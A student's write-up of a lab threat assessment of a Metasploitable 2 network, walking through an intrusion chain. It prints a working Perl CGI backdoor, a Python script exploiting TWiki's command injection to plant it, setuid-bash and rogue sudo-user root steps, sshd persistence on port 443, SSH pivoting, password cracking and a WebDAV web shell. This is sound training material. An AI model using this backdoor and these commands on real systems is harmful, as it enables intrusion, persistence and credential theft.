




#  Metasploitable 2 Network

I had to conduct a threat assesment of this network for my IA JHU class.  

There were some lessons learned, so I will put the highlights here.  

<br />

## Foothold - TWiki

Exploring the web server in a web browser, one of the webapps being hosted is TWiki. This appears to be a very old version of TWiki; at the bottom there is a label that reads; "Revision r1.20 - 02 Feb 2003." Based on this, my first thought was to search for Remote Code Execution (RCE) vulnerabilities for TWiki. That led me to a Rapid7 (the company behind metasploit) page [1] for a Debugenableplugincs RCE for TWiki. Based on this, I opened up `msfconsole` on my Kali box and searched for twiki. This search yielded four results, one of which was a RCE exploit `exploit/unix/webapp/twiki_history`. I briefly tested out all four of the msf exploits and this is the one that I thought was the most promising.  

The primary challenge I had to address at this point is that I am attacking from outside the firewall, and the firewall will only allow connections to the webserver on ports `443` and `80`. Binding to either of these ports would require privileges, and presumably the process hosting these web pages is running as an un-privileged user. This means that a bind shell is not an option because there are no ports we can bind to that we will be able to reach from our attack box. Furthermore, the firewall prevents the webserver from reaching out to our attack box so a reverse shell is not a possibility either.  

This leaves us with the only option being to send commands via HTTP requests and exfil data via the responses to those requests (ie. a webshell). In the `/bin` directory, twiki stores several perl scripts which are executed when you browse to them. For example, if you browse to `/bin/oops` the `oops` perl script runs, and the result is printed to the screen. So my idea was to create a custom perl backdoor, which would take an HTTP GET parameter and execute it as an OS command. I have no perl experience and I am not fond of it, so it took me a lot of trial and error to get this to work, but eventually I developed the following perl backdoor:
```perl
#!/usr/bin/perl -wT

BEGIN { unshift @INC, '.'; require 'setlib.cfg'; }

use CGI::Carp qw(fatalsToBrowser);
use CGI;
use TWiki;

use strict;

&main();

sub main {
    my $query = new CGI;
    my $theCmd = $query->param( 'cmd' );
    $ENV{'PATH'}='/usr/local/sbin:/usr/local/bin:/usr/sbin:
    /usr/bin:/sbin:/bin';
    my $output = "";
    if ($theCmd =~ /(.*)/) {
        $theCmd = $1;
        $output = qx ($theCmd);
    } else {
        $output = "bad";
    } 
    
    TWiki::writeHeader( $query ); 
    print "<html><body>\n"
        . "Command: $theCmd <p/>"
        . "output: $output\n"
        . "</body></html>\n";
    return;
}
```
What this does is takes a command from the 'cmd' parameter of a GET request and executes it using perl's `qx` command. There are a couple of specific things I had to do to work with Perl to get this to work. First, I had to manually set the `$ENV{'PATH'}` variable to avoid an unsafe path exception. Second, I had to match the input command against a trivial regex to get perl to consider the variable un-tainted. This comes from a very odd nuance; if Perl recognizes that a variable is read dynamically, it forces you to do some sort of check on the variable before you can use it as part of an OS command. The method I used with the trivial regex bypasses that.  

The next challenge I had to solve is how to write this backdoor to the `/bin` directory, and how to make it executable. For this, I decided to write a custom implementation of the Metasploit twiki_history exploit based on the source. Looking at the source for that exploit [2], the functionality is actually quite simple. This is just a basic command injection vulnerability on the `rev` parameter of a GET request to `/view/Main/TWikiUsers`. You need at least 1 alphanumeric character, followed by a space, a tick (\`), the command, another tick, and then the perl comment character (\#). Based on this, my idea was to base64 encode my backdoor and then send it as a string to be decoded and written to a file. Then I would `chmod +x` that file, and move it into the `/bin` directory. To my pleasant surprise on my first test, I realized that the directory my backdoor was written to by default was already the `/bin` directory, so there was no need to move it. Based on this, I whipped up the following python script:
```Python
import requests
import urllib

B64_BACKDOOR = "IyEvdXNyL2Jpbi9wZXJsIC13VAoKQkVHSU4geyB1bnNoaWZ0IEBJTkMsICcuJzsgcmVxdWlyZSAnc2V0bGliLmNmZyc7IH0KCnVzZSBDR0k6OkNhcnAgcXcoZmF0YWxzVG9Ccm93c2VyKTsKdXNlIENHSTsKdXNlIFRXaWtpOwoKdXNlIHN0cmljdDsKCiZtYWluKCk7CgpzdWIgbWFpbiB7CiAgICBteSAkcXVlcnkgPSBuZXcgQ0dJOwogICAgbXkgJHRoZUNtZCA9ICRxdWVyeS0+cGFyYW0oICdjbWQnICk7CiAgICAkRU5WeydQQVRIJ309Jy91c3IvbG9jYWwvc2JpbjovdXNyL2xvY2FsL2JpbjovdXNyL3NiaW46L3Vzci9iaW46L3NiaW46L2Jpbic7CiAgICBteSAkb3V0cHV0ID0gIiI7CiAgICBpZiAoJHRoZUNtZCA9fiAvKC4qKS8pIHsKICAgICAgICAkdGhlQ21kID0gJDE7CiAgICAgICAgJG91dHB1dCA9IHF4ICgkdGhlQ21kKTsKICAgIH0gZWxzZSB7CiAgICAgICAgJG91dHB1dCA9ICJiYWQiOwogICAgfSAKICAgIAogICAgVFdpa2k6OndyaXRlSGVhZGVyKCAkcXVlcnkgKTsgCiAgICBwcmludCAiPGh0bWw+PGJvZHk+XG4iCiAgICAgICAgLiAiQ29tbWFuZDogJHRoZUNtZCA8cC8+IgogICAgICAgIC4gIm91dHB1dDogJG91dHB1dFxuIgogICAgICAgIC4gIjwvYm9keT48L2h0bWw+XG4iOwogICAgcmV0dXJuOwp9"

TARGET_URL = "http://www.seclab.net"
URI = "/twiki/bin/view/Main/TWikiUsers"


def exec_command(cmd):
    payload = {"rev": f"3 `{cmd}`#"}
    params = urllib.parse.urlencode(payload, quote_via=urllib.parse.quote)
    r = requests.get(url=TARGET_URL+URI, params=params)
    print(f"Response status: {r.status_code}")

write_cmd = f"echo -n {B64_BACKDOOR} | base64 --decode > backdoor"
exec_command(write_cmd)

chmod_cmd = f"chmod +x backdoor"
exec_command(chmod_cmd)

```
That script worked like a charm and was able to deliver the backdoor to the target. Now I had a nice foothold on the webserver that works like this:  


<br />

## Privilege Escalation

My initial thought after gaining a foothold was to see what type of network and webserver enumeration I could do from my new position. I ran `netstat -alnp` via my backdoor and saw than the web server is listening on many more ports than what the firewall allows in. I did however note that `443` was not being listened on, despite being open through the firewall. Based on this, I wanted to create a bind shell on `443` that would allow me to have much more functionality from my attack box into the target network.  

To bind to `443`, root, or sudo access would be required so I started looking for a privilege escalation opportunity. Running `uname -r` via the backdoor we can see that we are running on Linux kernel version `2.6.24-16-server`. That is very out of date. I researched kernel exploits for `2.6.24` and came across many options. One option appealed to me because of its simplicity; that was CVE-2009-1185 [3]. It is a super clean looking exploit, with only knowledge of the pid of the `/proc/net/netlink` process required.  

First, I wanted to create an easier way for myself to upload files to the target. On the TWiki home page there is an attach button which lets you upload a file. I uploaded a file called "test_upload" and then using my backdoor, found where it got placed like so:  
```
www.seclab.net/twiki/bin/backdoor?cmd=find / 2>/dev/null | grep test_upload
# Output:
/var/www/twiki/pub/Main/WebHome/test_upload  
```

Using this technique, I uploaded the kernel exploit to the target and using the backdoor moved it to the current directory. Then, I compiled it with the backdoor:  
```
www.seclab.net/twiki/bin/backdoor?cmd=gcc -o privesc exploit.c
```

In the exploit instructions, it says that it will run whatever is in `/tmp/run` as root. So I uploaded a file named "run" and moved it to tmp, and made it executable. The file simply contained the following:  
```sh
#!/bin/bash
chmod u+s /bin/bash
```

All this does is add the suid bit to `/bin/bash`. This gives all users the ability to execute any bash command as root simply by using the `-p` flag. 

All that was left was to find the pid of `/proc/net/netlink`. The exploit noted that it is usually the pid of `udevd` minus one, so I ran `ps -aux | grep udevd` which returned 2343, meaning our netlink pid is probably 2342. Based on that I ran `./privesc 2342` via the backdoor. Testing it out:

Root acquired!  

<br />

## SSH

Now that we have root, I was deciding what the most useful type of bind shell to have listen on 443 would be. The requirements for this agent are OS command execution, port forwarding capability, and tunneling capability. My first thought was meterpreter, but I have had bad experiences with meterpreter being very inconsistent with tunneling and routing. Then the idea came to me that ssh actually offers all of the things I was looking for in this agent and is very reliable. Furthermore, sshd is already running on this webserver, bound to port 22. Changing the port sshd listens on to 443 should be trivial as root. First I grabbed the current sshd_config using my privesc'd backdoor. I also made sure to note its current permissions:
```sh
# Both commands run via url/backdoor?cmd=
bash -p -c "cat /etc/ssh/sshd_config"
bash -p -c "ls -la /etc/ssh/sshd_config"
```

Then I simply edited the Port line in sshd_config from 22 -> 443. Next I uploaded the new sshdconfig to TWiki. And then did the following to replace the old one and fix up the ownership:
```sh
# All commands run via url/backdoor?cmd=
bash -p -c "mv /var/www/twiki/pub/Main/WebHome/new_sshconfig
/etc/ssh/sshd_config"  
bash -p -c "ls -la /etc/ssh/sshd_config"
bash -p -c "chown root:root /etc/ssh/sshd_config"
```
For the changes to take effect, ssh must be restarted:
```sh
# Run via url/backdoor?cmd=
bash -p -c "/etc/init.d/ssh restart"
```

The only remaining issue is that I don't have a user that I can ssh as because the password for all of the accounts on this box are still unknown. My solution was to create a new user with a known password. I had to learn a bit about how passing in a password to `useradd` with the `-p` flag works behind the scenes and how this could be accomplished with a bash one liner using python. This page [4] had the answers I was looking for. Because the resulting command is quite complicated with many " and ' characters, I decided to write it to a file and upload that file to the target instead of executing it directly in the web browser. Here is the file I executed:
```sh
#!/bin/bash -p
useradd -m -p "$(python -c "import crypt; print crypt.crypt(
    \"abcd1234\", \"\$6\$$(</dev/urandom tr -dc 'a-zA-Z0-9' | 
    head -c 32)\$\")")" newadminuser
```
After moving it to the current directory and `chmod 777`ing it I executed it with the backdoor like so;
```
www.seclab.net/twiki/bin/backdoor?cmd=./add_new_user
```

Yay! That worked  

Having `/bin/bash` have the suid bit can actually become a little bit confusing, so I decided to add my user to the sudoers group and then remove the suid bit from `/bin/bash`. After my first attempt I realized that the sudo group on this box is called admin, not sudo. Here are the commands I ran via ssh:  
```sh
bash -p -c "usermod -aG admin newadminuser"
# Must log out and log back in for changes to take effect
bash -c "groups"
# output: newadminuser sudo admin
# remove suid bit from bash:
bash -p -c "chmod u-s /bin/bash"
```

<br />

## DNS Server

I want to scan the DNS server from inside the DMZ. To do this I setup an SSH dynamic port forward, and then use proxychains to send nmap traffic through the SSH tunnel like so:
```sh
ssh -oHostKeyAlgorithms=+ssh-rsa -p 443 -D 9050\
-N -f newadminuser@www.seclab.net
proxychains nmap 10.200.0.11
```
This shows that `tcp/53` and `tcp/22` are open to the DMZ network. `udp/53` is also exposed to both the DMZ network and then outside network but nmap does not scan for udp ports unless you specify. To my understanding, `tcp/53` is used for all non-address resolution functions of DNS, like zone transfers, etc. 

I decided to further enumerate ssh on the target with the following:  
```sh
proxychains nmap -sV -sT -p 22 10.200.0.11
```
This revealed that OpenSSH 5.3 (protocol 2.0) is running. That is a very old version of OpenSSH and while there are some vulnerabilities, after some research I determined none were of interest to me for further exploitation of the network.  

SSH to DNS server via tunnel:
```sh
ssh -oHostKeyAlgorithms=+ssh-rsa -p 443 -L 2222:10.200.0.11:22\
-N -f newadminuser@www.seclab.net
ssh -oHostKeyAlgorithms=+ssh-rsa -p 2222 root@127.0.0.1
```

The only "vulnerability" here is that the DNS server has weak credentials (root/password)  

<br />

## Password Cracking

Because we have root, we can now pull back the `/etc/passwd` file and the `/etc/shadow` file from the target. Then, we can use the pre-installed Kali tool `unshadow` to combine these two files into a format that the `John the Ripper` password cracking tool will accept:
```sh
unshadow passwd shadow > unshadow_out
john unshadow_out
```

John cracked several of the passwords (including my fake admin user's password) almost immediately.

All of these passwords: user/user, pastgres/postgres, service/service, klog/123456789, sys/batman  are incredibly weak passwords and should be changed  

<br />

## Root shell on 1524 - Alternative Privesc

There is a service listening on `tcp/1524` that simply gives you a root shell when you connect to it. This could have been used as an alternative method for privilege escalation. I can upload a file called cmd_for_nc containing the following:  
```sh
chmod u+s /bin/bash
```
And have it executed by the root shell like so:
```
www.seclab.net/twiki/bin/backdoor?cmd=nc 127.0.0.1 1524 -q 1 < cmd_for_nc
```
Now, executing `bash -p -c "whoami"` shows that we have succesfully set the suid bit on `/bin/bash`

The mitigation for this vulnerability is to simply not host a root shell on an exposed port that requires no authentication.  

<br />

## WebDav - Alternative Foothold

The web server is running WebDav, a tool that lets you edit web-sites over an HTTP or HTTPS connection. This instance of WebDav is not locked-down at all and can easily be used by any attacker to exploit the webserver.  

`cadaver` is a built in kali tool that can be used to interact with WebDav. Because this WebDav instance is vulnerable, I can use cadaver to upload a simple php web shell like so;
```sh
cadaver http://www.seclab.net/dav
dav/> put /usr/share/webshells/php/simple-backdoor.php
```

Now I have OS command execution like so:  


From this point, I could pick up at the privilege escalation step

<br />

## PC1 Privesc - DirtyCow Kernel Exploit

This PC is running Linux `2.6.32` which may be vulnerable to this [5] kernel exploit.  

GCC is not present on the target box, so I statically compiled the kernel exploit on my attack box like so:  
```sh
gcc -pthread -static -o dirty dirtycow.c -lcrypt
```

Then I used scp to move it over to the target.  

I ran the kernel exploit like so:  

It took about thirty seconds to run, but then reported that a user "firefart" with a uid of 0 had been created with the password "abcd1234". I was able to su to this user using the password and act as root on the target. Unfortunately, even if I restore `/etc/passwd` the VM ends up in a corrupted state where no users can login and the VM will hang if it is rebooted. I was unable to troubleshoot what was causing this. 

Regardless, privilege escalation to root is still dangerous. The solution is once again to update the kernel version to a version of the Linux kernel without root privesc vulnerabilities. 

<br />

## Sources

1. https://www.rapid7.com/db/modules/exploit/unix/webapp/twiki_maketext/
2. https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/webapp/twiki_history.rb
3. https://www.exploit-db.com/exploits/8572
4. https://askubuntu.com/questions/752500/how-do-i-encrypt-a-new-users-password-using-the-useradd-command
5. https://www.exploit-db.com/exploits/40839
6. https://www.exploit-db.com/exploits/41233
